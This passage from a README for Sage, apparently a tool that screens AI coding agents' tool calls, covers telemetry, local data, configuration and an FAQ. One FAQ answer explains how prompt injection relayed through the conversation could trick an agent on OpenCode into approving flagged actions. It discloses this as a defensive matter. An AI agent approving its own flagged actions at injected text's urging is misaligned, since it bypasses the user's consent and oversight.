   - Detection signals (matched rule IDs, URL check results, package check results, and on Windows/WSL AMSI check results)
   - A structured `content` snapshot with strict per-field caps and sanitization: `command` ≤ 512 chars, `url` ≤ 512 chars, `file_path` ≤ 512 chars, `package_name` ≤ 256 chars, `package_version` / `package_registry` ≤ 128 chars. Home-directory prefixes in `file_path` and `command` are replaced with `~` before send.
   - A unique event ID correlating the detection with the local audit log entry
   - This data is used to improve Sage's detection capabilities, not for user tracking. Community IQ can be disabled at any time via configuration.

On Windows and WSL, AMSI denies record an `amsi_checks` entry in the audit log and detection-telemetry signals. Each entry contains a synthesized detection name (`AMSI|DETECTED` or `AMSI|BLOCKED_BY_ADMIN`), the labelled scan target, an optional `content_snippet` capped at 200 chars with home directories scrubbed, and the raw numeric `amsi_result`.

### What Data Stays Local

- Source code and file contents are never transmitted
- Commands and command arguments stay local (detection telemetry sends only the command string for Bash denies)
- File paths stay local (detection telemetry sends only the target file path for file-operation denies)
- Threat definition matching (heuristics) runs entirely locally
- The verdict cache, exceptions, and audit log are local files

### Disabling Cloud Features

URL and file reputation checks:

```json
{
  "url_check": { "enabled": false },
  "file_check": { "enabled": false }
}
```

Detection telemetry:

```json
{
  "community_iq": false
}
```

With URL checks, file checks, and Community IQ all disabled, all detection runs locally via heuristics. The only outbound traffic that remains is the lightweight session-start version check (Sage version, agent runtime, OS, installation ID — no command, URL, or file content).

### More Information

- [Gen Digital Products Privacy Policy](https://www.avast.com/products-policy)
- [Gen Digital Privacy Center](https://www.gendigital.com/privacy/)

---

## FAQ

**Can I add custom threat rules?**

Not yet. Custom user threat definitions (`~/.sage/threats/`) are planned but not yet implemented. Currently, only the rules shipped in `threats/` are used.

**What about MCP tool calls?**

MCP tool call interception (`mcp__*`) is planned but not yet implemented. Currently Sage only intercepts the built-in tools listed in [Intercepted Tools](#intercepted-tools).

**Can the agent auto-approve flagged actions on OpenCode?**

OpenCode relays `ask` verdicts through the agent conversation, which is susceptible to prompt-injection attacks that could trick the agent into approving without user consent. Claude Code, Cursor, and OpenClaw use native UI dialogs and are not affected.

Set `"sensitivity": "paranoid"` in `~/.sage/config.json` to block all flagged actions on OpenCode instead of asking for approval.

**Why does OpenClaw flag Sage as "potential-exfiltration"?**

This is a false positive. OpenClaw's `code_safety` audit fires when `readFile` and `fetch` coexist in the same bundle. Sage reads local files (config, cache, YAML) and separately sends URLs to a reputation API. No file content crosses the network.
